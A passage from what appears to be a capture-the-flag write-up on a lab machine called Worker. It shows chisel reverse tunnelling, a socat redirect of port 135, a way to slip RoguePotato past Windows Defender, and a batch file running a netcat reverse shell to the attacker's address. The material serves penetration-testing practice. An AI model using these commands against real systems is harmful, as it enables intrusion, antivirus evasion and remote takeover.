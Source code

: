 ### Tunnel

Rather than mess with the Fake OXID exe, I’ll create the tunnel myself with [Chisel](https://github.com/jpillora/chisel). I’ll start the server locally, and then upload the exe to Worker and connect as a client:

```

c:\ProgramData>.\c client 10.10.14.24:8000 R:9999:localhost:9999
.\c client 10.10.14.24:8000 R:9999:localhost:9999
2020/08/23 13:31:41 client: Connecting to ws://10.10.14.24:8000
2020/08/23 13:31:41 client: Fingerprint 13:b9:97:ca:c7:6e:ae:5d:cd:b6:f1:bf:3c:d3:c7:ec
2020/08/23 13:31:41 client: Connected (Latency 1.0691ms)

```

The server gets the connection:

```

root@kali# ./chisel_1.6.0_linux_amd64 server -p 8000 --reverse
2020/08/23 07:27:53 server: Reverse tunnelling enabled
2020/08/23 07:27:53 server: Fingerprint 13:b9:97:ca:c7:6e:ae:5d:cd:b6:f1:bf:3c:d3:c7:ec
2020/08/23 07:27:53 server: Listening on 0.0.0.0:8000...
m2020/08/23 07:29:58 server: proxy#1:R:0.0.0.0:9999=>localhost:9999: Listening

```

Now on my Kali box there’s a listener on 9999 that will forward to 9999 on Worker.

I’ll create a `socat` listener that will forward incoming on TCP 135 to localhost 9999, which will be picked up by the `chisel` tunnel and sent back to 9999 on Worker:

```

root@kali# socat tcp-listen:135,reuseaddr,fork tcp:127.0.0.1:9999

```

The request will look like (and the response will travel the same path in the opposite direction):

![image-20210129121730010](https://0xdfimages.gitlab.io/img/image-20210129121730010.png)

This could probably be done without `socat`, just using `chisel` to listen on 135, but I didn’t test that.

### Defender

Windows Defender will eat `RoguePotato.exe` when it’s on disk, but it turns out that if I run it fast enough, I can get it to execute before it’s detected and quarantined. I had more success running the payload as a `.bat` file.

```

c:\ProgramData>echo c:\programdata\nc.exe -e cmd 10.10.14.24 443 > rev.bat                    
                                              
c:\ProgramData>type rev.bat                             
c:\programdata\nc.exe -e cmd 10.10.14.24 443

```
